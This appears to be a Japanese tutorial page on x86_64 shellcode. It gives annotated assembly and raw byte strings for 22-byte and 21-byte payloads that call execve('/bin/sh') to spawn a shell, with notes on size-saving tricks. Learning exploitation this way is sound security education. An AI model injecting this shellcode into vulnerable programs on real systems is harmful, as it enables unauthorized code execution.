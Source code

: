 # シェルコード

一般にシェルコードと言ったらシェルを開くコードを指します。

ここでは x86_64 のシェルコードについて扱います。

## 22 Byte

多分今一番短いとされているシェルコードです。

目標は execve('/bin/sh',0,0) を呼び出す事になります。システムコールを呼び出す時は、

- rax : システムコール番号
- rdi : 第一引数
- rsi : 第二引数
- rdx : 第三引数
- ...

という形になります。

```
section .text
    global _start
_start:
    xor rsi, rsi                ; rsi (第二引数)を 0 にする
    push rsi                    ; NULL をスタックに置く ('/bin//sh' の末端用)
    mov rdi, 0x68732f2f6e69622f ; rdi に '/bin//sh' を入れる
    push rdi                    ; '/bin//sh' をスタックに置く
    push rsp                    ; '/bin//sh' のアドレスをスタックに置く
    pop rdi                     ; rdi (第一引数) に '/bin//sh' のアドレスを入れる
    mov al, 0x3b                ; システムコール番号を0x3b (execve) にする
    cdq                         ; eax を符号拡張して edx:eax にする (第三引数である rdx を 0 にする)
    syscall;                    ; execve('/bin/sh',0,0)
```

```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```


### 賢いポイント

- ```mov rsi, 0``` ではなく、```xor rsi, rsi``` にしている点
- ```mov rdi, rsp``` ではなく、```push rsp; pop rdi``` にしている点
- ```mov rax, 0x3b``` ではなく、```mov al, 0x3b``` にしている点
- ```xor rdx, rdx``` ではなく、```cdq``` で 0 にしている点

これらの工夫により、22 Byteという超絶ショートシェルコードを実現できている訳です。

[引用](https://www.exploit-db.com/exploits/47008)

## 21 Byte

通常はシェルコードにNULLを入れるのはよろしくないんですが、入れても大丈夫な場合もあります。そういう時用です。

```
section .text
    global _start
_start:
    xor rsi, rsi
    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi
    mov al, 0x3b
    cdq
    syscall;
```

```
\x48\x31\xf6\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

'/bin//sh' だった部分が '/bin/sh\x00' になった分、NULL をスタックに置く必要がなくなって 1 バイト縮んだだけです。